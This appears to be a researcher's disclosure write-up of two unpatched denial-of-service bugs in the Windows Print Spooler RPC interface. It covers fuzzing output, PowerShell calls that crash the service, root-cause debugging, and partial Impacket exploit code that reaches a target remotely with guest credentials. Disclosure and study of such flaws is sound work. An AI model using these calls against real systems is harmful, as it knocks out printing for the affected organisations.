

## Summary

Recently, I discovered a vulnerability in Windows that causes the Spooler service to crash. The Print Spooler service is a system process that manages all print jobs sent from your computer to the printer.

* A low privileged user can remotely crash the spooler service over MS-RPC.
* If the guest user is enabled (for example within a domain), then it's possible to exploit this vulnerability as guest as well.
* Vulnerable systems include both clients and servers.
* The Spooler service automatically restarts 3 times, but after the 3rd time, manual action is needed to start the service again. An attacker can simply crash the service 3 times to keep it stopped.
* The immediate and functional impact is that all printing operations on that system stop and all connected printers may appear as offline.
* No CVE was assigned because Microsoft considers the vulnerability as moderate, and is therefore not (yet) fixed.

## Discovery
The [MS-RPC](https://learn.microsoft.com/en-us/windows/win32/api/_rpc/) implementation of the Spooler service includes multiple RPC interfaces. Among of these is the interface with ID `12345678-1234-abcd-ef00-0123456789ab`, which is also known to be abused for the [PrinterBug](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn) coerce.

While fuzzing the RPC implementation of this RPC interface using my context-aware [MS-RPC-Fuzzer](https://github.com/warpnet/MS-RPC-Fuzzer), I noticed that for two procedures the Spooler service crashed.  

Collecting RPC data:
```powershell
Get-RpcServerData -OutPath output -target "C:\windows\system32\spoolsv.exe"
[+] dbghelp.dll successfully initialized
[+] Getting RPC interfaces
[+] Getting RPC Interfaces, Endpoints and Procedures for specified target C:\windows\system32\spoolsv.exe
[+] Found 5 RPC Interface(s)
[+] Saved RPC interfaces, Endpoints and Procedures of target to 'output\rpcServerData.json'
[+] To fuzz please run 'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output'
```

Fuzzing the interface:
```powershell
'.\output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath .\output\ -Blacklist .\blacklist.txt -FuzzerType sorted -StringInput "\\192.168.10.196" -intInput 1
```

While fuzzing, the error.json file returned the following response for the procedure `RpcRegeneratePrintDeviceCapabilities`
```json
{
  "MethodName": "RpcRegeneratePrintDeviceCapabilities",
  "Endpoint": "\\RPC Control\\LRPC-d8ca3faa468f7659de",
  "ProcedureName": "RpcRegeneratePrintDeviceCapabilities",
  "MethodDefinition": "Int32 RpcRegeneratePrintDeviceCapabilities(NtCoreLib.Ndr.Marshal.NdrContextHandle)",
  "Service": "Spooler",
  "FuzzInput": "p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)",
  "Errormessage": "Exception calling Invoke with 2 argument(s): (0xC0000701) - The ALPC message requested is no longer available."
}
```

This error means that the advanced local procedure call (ALPC) endpoint `\\RPC Control\\LRPC-d8ca3faa468f7659de` suddenly became unavailable. Most of the time this means that the service running the RPC server crashed.
When checking the event viewer in Windows under system, it indeed said that the service unexpectedly stopped, great! But let's take a step back and let me explain why I chose to fuzz with the `-StringInput "\\192.168.10.196"` and `-intInput 1` arguments.

### Context handles
The `RpcRegeneratePrintDeviceCapabilities` procedure has the following definition:

```cs
RpcRegeneratePrintDeviceCapabilities(NtCoreLib.Ndr.Marshal.NdrContextHandle)
```

This means that it only takes one input parameter, a NdrContextHandle or just [Context Handle](https://learn.microsoft.com/en-us/windows/win32/rpc/context-handles). A context handle is like a session token. As explained by Microsoft: "It is sometimes the case that distributed applications require the server program to maintain status information between client calls."

But how do we get a context handle in this case? Well within the same RPC interface, some procedures provide context handle as output parameter. For example, [RpcOpenPrinter](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f), which has the following definition:

```cs
RpcOpenPrinter(System.String, System.String, Struct_0, Int32)
```

Eventhough `RpcOpenPrinter` in documented, and we can see that the output parameter is a context handle, it is nice to know this beforehand for fuzzing. Since by default only input parameters are shown, we will need to get into some PowerShell reflection.

```powershell
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'RpcOpenPrinter' }
```

When we have specified the method object, we can now look for it's return types:
```powershell
$method.ReturnType.GetFields()

Name                   : p1
MetadataToken          : 67109366
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Public
FieldType              : NtCoreLib.Ndr.Marshal.NdrContextHandle
MemberType             : Field
ReflectedType          : RpcOpenPrinter_RetVal
DeclaringType          : RpcOpenPrinter_RetVal
Module                 : gwpbn5kb.out.dll
IsCollectible          : False
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsPinvokeImpl          : False
IsSpecialName          : False
IsStatic               : False
IsAssembly             : False
IsFamily               : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsPrivate              : False
IsPublic               : True
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

----snipped-----
```

We can see that the `FieldType` here is `NtCoreLib.Ndr.Marshal.NdrContextHandle`. The MS-RPC-Fuzzer automatically checks for the input and output parameters and looks which procedures depend on each other and sorts them!
However, not all values for the `RpcOpenPrinter` return a valid context handle. For example the following input returns a null handle:

```powershell
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'RpcOpenPrinter' }
$p3 = $method.GetParameters()[2]
$complex = [Activator]::CreateInstance($p3.ParameterType)
$retval = $client.RpcOpenPrinter("incendium", 'rocks', $complex, 1)
$retval

p1                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0   1801
```

But when providing the IPv4 of the local system as UNC path for the first string parameter, it does provide a valid handle:
```powershell
$retval = $client.RpcOpenPrinter("\\192.168.10.196", 'rocks', $complex, 1)
$retval

p1                                                           retval
--                                                           ------
Handle: 641dcd8c-15c6-4273-8722-4b227405fe37 - Attributes: 0      0
```

And any integer higher than 3 will also result in a null handle:
```powershell
$retval = $client.RpcOpenPrinter("\\192.168.10.196", 'rocks', $complex, 3)
$retval

p1                                                           retval
--                                                           ------
Handle: f903fb90-18c1-459e-a153-9ff3b7b150e9 - Attributes: 0      0

$retval = $client.RpcOpenPrinter("\\192.168.10.196", 'rocks', $complex, 4)
$retval

p1                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0      5
```

### Crashing the spooler service

This shows that getting a valid context handle can be quite tricky. Once the MS-RPC-Fuzzer obtains a valid context handle within the same interface, it will store it in a object and try to use it against the rest of the procedures that take a context handle as input parameter.

Calling `RpcRegeneratePrintDeviceCapabilities` with a null handle returns `0x800706F7`:
```powershell
$retval

p1                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0      5

$client.RpcRegeneratePrintDeviceCapabilities($retval.p1)
MethodInvocationException: Exception calling "RpcRegeneratePrintDeviceCapabilities" with "1" argument(s): "(0x800706F7) - The stub received bad data."
```

But with a valid handle provided by `RpcOpenPrinter`, it crashes the Spooler service. 

```powershell
$retval

p1                                                           retval
--                                                           ------
Handle: f1059d68-6126-470a-994a-e666e4df5be1 - Attributes: 0      0

$client.RpcRegeneratePrintDeviceCapabilities($retval.p1)
MethodInvocationException: Exception calling "RpcRegeneratePrintDeviceCapabilities" with "1" argument(s): "(0xC0000701) - The ALPC message requested is no longer available."

get-service spooler

Status   Name               DisplayName
------   ----               -----------
Stopped  spooler            Print Spooler
```

## Root cause analysis
To get to the root cause of the vulnerability, we are going to use [WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/) and [Ghidra](https://github.com/NationalSecurityAgency/ghidra).
First, we start WinDbg as administrator and attach it to the Spooler process.

In a PowerShell session we crash the Spooler service.
```powershell
$client.RpcRegeneratePrintDeviceCapabilities($retval.p1)
```

The following breakpoint is being hit:
```
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
localspl!<lambda_e85e9dbc33c2568f9824201fbf219707>::operator()+0xbf:
00007ffb`29a276cf 488b4b18        mov     rcx,qword ptr [rbx+18h] ds:00000000`00000018=????????????????
```

The crash is not happening in `spoolsv.exe` but within a loaded dll, `localspl.dll`. In WinDbg we find the base address of the dll using:
```
0:002> !lmi localspl
Loaded Module Info: [localspl] 
         Module: localspl
   Base Address: 00007ffb299d0000
   ---snipped---
```

In Ghidra we load the `C:\Windows\System32\localspl.dll` and we set the address as image base.


_Setting image base memory address in Ghidra_

Next, we copy the address where the exception in `localspl` happens `00007ffb29a276cf` and go to it in Ghidra.


_Finding specific line which causes the exception in Windbg_

While this shows some indication, we can also load the [PDB file](https://learn.microsoft.com/en-us/visualstudio/debugger/specify-symbol-dot-pdb-and-source-files-in-the-visual-studio-debugger?view=vs-2022) of the `localspl.dll` to get a even better understanding.
We can download this file using symchk.
```powershell
.\symchk.exe C:\Windows\System32\localspl.dll /s SRV*C:\Symbols*https://msdl.microsoft.com/download/symbols

SYMCHK: FAILED files = 0
SYMCHK: PASSED + IGNORED files = 1
```


_Loading the PDB file of localspl in Ghidra_

Once loaded, we go to the `00007ffb29a276cf` memory address once again. This time it is a bit different. I renamed the 1 input parameter that the responsible function took to `Phandle`.


_Reading the responsible line after loading the PDB_

rbx in WinDbg points to `Null`

```
0:002> r
rax=0000000000846a98 rbx=0000000000000000 rcx=0000000000a5e668
```

This likely means that a null pointer is being dereferenced. I am not sure why our context handle would cause this crash because the documentation of [RpcRegeneratePrintDeviceCapabilities](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/20916943-97d7-4966-8723-6d521f78712e) mentions that it should be a context handle that was opened by either RpcAddPrinterEx, RpcAddPrinter, RpcOpenPrinter or RpcOpenPrinterEx, as we did.

This leaves the question; What if we instead call `RpcAddPrinter` and use that context handle for `RpcRegeneratePrintDeviceCapabilities`? Well, the `RpcAddPrinter` is a more complex procedure to call.

```cs
DWORD RpcAddPrinter(
  [in, string, unique] STRING_HANDLE pName,
  [in] PRINTER_CONTAINER* pPrinterContainer,
  [in] DEVMODE_CONTAINER* pDevModeContainer,
  [in] SECURITY_CONTAINER* pSecurityContainer,
  [out] PRINTER_HANDLE* pHandle
);
```

The procedure takes three structures, which when I create a object for using an activation, it returns `The parameter is incorrect`
```json
{
  "MethodName": "RpcAddPrinter",
  "Endpoint": "\\RPC Control\\LRPC-32626651dd3427d945",
  "ProcedureName": "RpcAddPrinter",
  "MethodDefinition": "RpcAddPrinter_RetVal RpcAddPrinter(System.String, Struct_8, Struct_0, Struct_18)",
  "Service": "Spooler",
  "FuzzInput": "p0=\\\\172.25.234.107\r\np1=Struct_8 (Complex)\r\np2=Struct_0 (Complex)\r\np3=Struct_18 (Complex)",
  "Output": "p4: Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0 retval: 87",
  "WindowsMessage": "57: The parameter is incorrect."
}
```

So I am not sure if `RpcAddPrinter` would return a valid context handle, if that wouldn't crash the Spooler service.

## Remotely crashing the service
For those that are not that familiar with MS-RPC, procedures can be called remotely if the RPC server implements an endpoint over either named pipes (ncacn_np) or TCP (ncacn_ip_tcp). The RPC interface that contains the vulnerable procedure,  `12345678-1234-abcd-ef00-0123456789ab` used to be accessible over the named pipe `\pipe\spoolss\`. But newer versions of Windows (11) only implement the ncacn_ip_tcp endpoint.

The MS-RPC-Fuzzer also shows over which RPC endpoints the interface is accessible.
```json
{
  "C:\\Windows\\System32\\spoolsv.exe": [
    {
      "InterfaceId": "12345678-1234-abcd-ef00-0123456789ab",
      "StringBindings": [
        "ncalrpc:[LRPC-32626651dd3427d945]",
        "ncacn_ip_tcp:[61835]"
      ],
    }
  ]
}
```
The binding string `ncacn_ip_tcp:[61835]` here is the endpoint we need to remotely connect to the interface and invoke the procedures.

### Impacket
Impacket implements [DCERPC](https://www.coresecurity.com/sites/default/files/private-files/RicharteSolino_2006-impacketv0.9.6.0.pdf) functions so that we can use Python to write our exploit.

Our exploit will need to first call `RpcOpenPrinter` (opnum 1), store the context handle and then call `RpcRegeneratePrintDeviceCapabilities` (opnum 117). The Impacket dcerpc v5 RPRN functionality does implement `RpcOpenPrinter`, but not `RpcRegeneratePrintDeviceCapabilities`. So we need to implement that class ourselves.

Snipped of exploit:
```python
# -----------------------------
# Prepare RpcRegeneratePrintDeviceCapabilities (opnum 117)
# -----------------------------
class PRINTER_HANDLE_PTR(NDRPOINTER):
    referent = (('referent', par.PRINTER_HANDLE),)

class RpcRegeneratePrintDeviceCapabilities(NDRCALL):
    opnum = 117
    structure = (
        ('pHandle', par.PRINTER_HANDLE),
    )

# Wrap the handle into a pointer and send
ptr = PRINTER_HANDLE_PTR()
ptr['referent'] = printer_handle_obj

request = RpcRegeneratePrintDeviceCapabilities()
request['pHandle'] = printer_handle_obj    
```

The exploit converts the returned handle of `RpcOpenPrinter` to raw bytes, otherwise I kept getting errors that the stub received bad data.



Using the configuration at the top, the credentials and target are specified:

```python
# ---------- Configuration ----------
TARGET = "192.168.10.190"
USERNAME = "guest"
PASSWORD = ""
DOMAIN = "testcorp.local"
PRINTER_NAME = "\\\\%s\x00" % TARGET
# -----------------------------------
```

This exploit works using any authenticated user (within the domain or locally) as long as the firewall allows connecting to TCP port 135 and the target port which is used for MS-RPRN. But it also works when the guest user is enabled on the target system, or within the domain.


_Launching exploit against target 192.168.10.190_

I won't share the whole PoC because I think there is not really any use to it during a penetration test or red team assignment for example.

## Another one
After being done with this vulnerability, I blacklisted the `RpcRegeneratePrintDeviceCapabilities` procedure to see if other procedures contain new vulnerabilities as well. And yes, calling the `RpcPrintSupportOperation` results in another crash! `RpcPrintSupportOperation` takes 5 input parameters.

```cs
RpcPrintSupportOperation(NtCoreLib.Ndr.Marshal.NdrContextHandle, Int32, Int32, Byte[], Int32)
```

I won't show the whole root cause analysis again, but believe me when I say its another null pointer dereference. Impacket also doesn't implement `RpcPrintSupportOperation`, so in Python we should again implement the class ourselves.
```python
class PRINTER_HANDLE_PTR(NDRPOINTER):
    referent = (('referent', par.PRINTER_HANDLE),)

# -----------------------------
# Prepare RpcPrintSupportOperation (opnum 118)
# -----------------------------
class RpcPrintSupportOperation(NDRCALL):
    opnum = 118
    structure = (
        ('p0', par.PRINTER_HANDLE),     # Context handle
        ('p1', rprn.DWORD),             # int
        ('p2', rprn.DWORD),             # int
        ('p3', NDRUniConformantArray),  # byte[]
        ('p4', rprn.DWORD),             # int
    )

p1_val = 0
p2_val = 0
p3_data = b"\x00" * 4
p4_val = len(p3_data)

request = RpcPrintSupportOperation()
request['p0'] = printer_handle_obj
request['p1'] = p1_val
request['p2'] = p2_val
request['p3'] = p3_data
request['p4'] = p4_val
```

## Reporting to Microsoft
I reported both vulnerabilities to Microsoft (MSRC), and now that I'm a bit more familiar with which vulnerability types they consider to be important based on [Microsoft's severity bar for Windows](https://www.microsoft.com/en-us/msrc/sdlbugbar), I was a bit surprised that they concluded both to be moderate. It seems that the Spooler service doesn't fall under the "High value asset" category and therefore both vulnerabilities are not fixed and no CVE was assigned.

However.. 

I do think Microsoft will fix these vulnerabilities very soon as they have done with some of the other vulnerabilities that I reported which were moderate. Even though I respect Microsoft's response, I had hoped for another outcome.

## Conclusion
This post showcased two vulnerabilities within the Spooler service on Windows that causes it to crash. A low privileged user or guest if enabled, can remotely exploit the vulnerability over MS-RPC using the exposed ncacn_ip_tcp endpoint for MS-RPRN.

The [MS-RPC-Fuzzer](github.com/warpnet/MS-RPC-Fuzzer) was used to discover the vulnerabilities. Its capability to do context-aware fuzzing allows reaching more code paths, like calling procedures that take a context handle as input parameter.

Because of a null pointer dereference, the process crashes and stops the Spooler service. Even though the service starts automatically 3 times, after the 3rd time, manual action is necessary to start the service.

Both vulnerabilities were disclosed to Microsoft, but are not being (directly) addressed because the severity is moderate, and not important or critical. This means no CVE is being assigned.  

## Resources & References

### Tools & Repositories

- [**NtObjectManager (Google Project Zero)**](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtObjectManager)  
  A suite of tools for inspecting Windows kernel objects and RPC interfaces.

- [**MS-RPC-Fuzzer (Remco van der Meer)**](https://github.com/warpnet/MS-RPC-Fuzzer)  
  Fuzzer specialized for Microsoft RPC (MS-RPC) endpoints and automates generation and delivery of malformed RPC requests for stability and crash analysis.

- [**Ghidra (NSA)**](https://github.com/NationalSecurityAgency/ghidra)
  Full-featured disassembler/decompiler for analyzing binaries (services, DLLs, drivers) to locate RPC dispatch routines, opnums, and marshalling routines.

### Technical Guides & Blogs

- [**MS-RPRN and Coerced Authentication – The Hacker Recipes**](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn)  
  Techniques for triggering authentication via printer RPC interfaces.

### Documentation & Specs

- [**Microsoft Security Response Center (MSRC)**](https://msrc.microsoft.com/)  
  Official source for Microsoft vulnerability disclosures and advisories.

- [**Windows Security Internals (No Starch Press)**](https://nostarch.com/windows-security-internals)  
  Recommended book for deep knowledge of Windows internals and security mechanisms.
